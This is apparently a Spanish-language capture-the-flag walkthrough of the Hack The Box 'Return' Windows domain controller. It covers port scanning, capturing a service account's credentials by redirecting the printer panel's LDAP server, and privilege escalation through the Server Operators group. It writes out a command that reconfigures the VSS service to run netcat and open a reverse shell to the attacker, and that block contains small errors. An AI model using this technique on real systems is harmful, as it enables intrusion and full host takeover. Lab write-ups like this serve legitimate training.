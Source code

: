 ### Ping 
#Easy #windows 
```python
ping -c 1 10.10.11.108
PING 10.10.11.108 (10.10.11.108) 56(84) bytes of data.
64 bytes from 10.10.11.108: icmp_seq=1 ttl=127 time=156 ms

--- 10.10.11.108 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 155.571/155.571/155.571/0.000 ms
```

### TTL 127= Windows

### nmap
```python
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-10 20:12:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 17m41s
| smb2-time: 
|   date: 2024-03-10T20:13:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 10 15:56:22 2024 -- 1 IP address (1 host up) scanned in 126.64 seconds
```

### Ports
| PORT      | STATE    | SERVICE      | VERSION                                               |
|-----------|----------|--------------|-------------------------------------------------------|
| 53/tcp    | open     | domain       | Simple DNS Plus                                       |
| 80/tcp    | open     | http         | Microsoft IIS httpd 10.0                              |
| 88/tcp    | open     | kerberos-sec | Microsoft Windows Kerberos (server time: 2024-03-10 20:12:54Z) |
| 135/tcp   | open     | msrpc        | Microsoft Windows RPC                                 |
| 139/tcp   | open     | netbios-ssn  | Microsoft Windows netbios-ssn                         |
| 389/tcp   | open     | ldap         | Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name) |
| 445/tcp   | open     | microsoft-ds | ?                                                     |
| 464/tcp   | open     | kpasswd5     | ?                                                     |
| 593/tcp   | open     | ncacn_http   | Microsoft Windows RPC over HTTP 1.0                   |
| 636/tcp   | open     | tcpwrapped   |                                                       |
| 3268/tcp  | open     | ldap         | Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name) |
| 3269/tcp  | open     | tcpwrapped   |                                                       |
| 5985/tcp  | open     | http         | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)              |
| 9389/tcp  | open     | mc-nmf       | .NET Message Framing                                  |
| 47001/tcp | open     | http         | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)              |
| 49664/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49665/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49666/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49667/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49671/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49674/tcp | open     | ncacn_http   | Microsoft Windows RPC over HTTP 1.0                   |
| 49675/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49676/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49679/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
| 49717/tcp | open     | msrpc        | Microsoft Windows RPC                                 |
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

### Enumeracion del puerto SMB (445)
tenemos recursos compartidos pero no tenemos permisos para leerlos
![[Pasted image 20240310172159.png]]

### Enumeración del puerto http (80)

![[Pasted image 20240310172404.png]]

Settings
![[Pasted image 20240310172444.png]]

Configuremos netcat en el puerto 389 (LDAP) y especifiquemos nuestra dirección IP tun0 en el campo server address
![[Pasted image 20240310173449.png]]

logramos conexión
![[Pasted image 20240310173608.png]]
podemos ver las credenciales de del usuario svc-printer 

### evil-winrm
usamos las credenciales que hemos conseguido para lograr una conexión con evin-winrm
![[Pasted image 20240310174117.png]]


### Escalada de privilegios
La enumeración de membresías de grupos revela que svc printer es parte del grupo Server Operators.
![[Pasted image 20240310174507.png]]
Este grupo tiene permisos para realizar varias configuraciones en los controladores de dominio, incluidos privilegios de copia de seguridad y restauración, cambiar la hora del sistema y apagar el sistema.


### netcat
vamos a descargar netcat y con un servidor en python subimos el archivo a la maquina victima
![[Pasted image 20240310182212.png]]

### services
aqui podemos ver todos los servicios que pueden ser modificados por el usuario svc-printer ya que este pertenece al grupo Server Operators
![[Pasted image 20240310182347.png]]
podemos modificar uno de estos servicios para que ejecute el netcat y de esa manera poder conseguir una reverse shell

vamos a modificar el sevicio VSS este permite facilitar la creación de copias de seguridad de volúmenes de disco mientras los archivos están en uso
```python
	sc.exe config vss binPath="C:\Users\svc printer\Documentos\nc.exe e cmd.exe IP Puerto
	
	nc.exe stop vss
	
	nc.exe start vss
```
![[Pasted image 20240310191527.png]]
estaremos a la escucha en el puerto seleccionado para que al restablecer el servicio podamos conseguir una reverse shell esta reverse shell es inestable asi que solo durara unos pocos segundos. para conseguir una shell optima podríamos establecer una conexión con meterpreter 

### WE ARE ROOT